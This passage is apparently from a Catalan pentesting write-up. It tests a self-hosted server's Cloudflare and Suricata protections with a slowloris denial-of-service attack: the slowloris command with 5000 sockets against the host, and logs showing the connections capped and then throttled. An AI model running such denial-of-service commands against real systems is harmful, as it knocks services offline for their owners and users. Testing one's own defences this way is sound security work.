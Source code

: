 <img src="..\assets\images\pentesting\cloudflare\requests_slowloris_1.png" alt="Bloqueig direccions IP Suricata " width="700" style="display: block; margin-left: auto; margin-right: auto;"/>


Provarem augmentant la quantitat de sockets a 5000.

```bash
[sirazazel@buzz ~]$ slowloris plex.espardenya.me -s 5000
[04-08-2022 15:04:19] Attacking plex.espardenya.me with 5000 sockets.
[04-08-2022 15:04:19] Creating sockets...
[04-08-2022 15:04:39] Sending keep-alive headers... Socket count: 1020
[04-08-2022 15:04:59] Sending keep-alive headers... Socket count: 1020
[04-08-2022 15:05:35] Sending keep-alive headers... Socket count: 1020
[04-08-2022 15:06:11] Sending keep-alive headers... Socket count: 1020
[04-08-2022 15:06:46] Sending keep-alive headers... Socket count: 1020
[04-08-2022 15:07:22] Sending keep-alive headers... Socket count: 1020
[04-08-2022 15:07:58] Sending keep-alive headers... Socket count: 1020
```

El sistema automàticament ens ha limitat la quantitat de sockets a 1020. Al cap d'un temps, ens ha anat limitant la connexió.

```bash
[04-08-2022 15:20:40] Sending keep-alive headers... Socket count: 336
[04-08-2022 15:20:55] Sending keep-alive headers... Socket count: 336
[04-08-2022 15:21:10] Sending keep-alive headers... Socket count: 336
[04-08-2022 15:21:25] Sending keep-alive headers... Socket count: 336
[04-08-2022 15:21:40] Sending keep-alive headers... Socket count: 336
[04-08-2022 15:21:55] Sending keep-alive headers... Socket count: 336
[04-08-2022 15:22:10] Sending keep-alive headers... Socket count: 336
[04-08-2022 15:22:25] Sending keep-alive headers... Socket count: 336
```
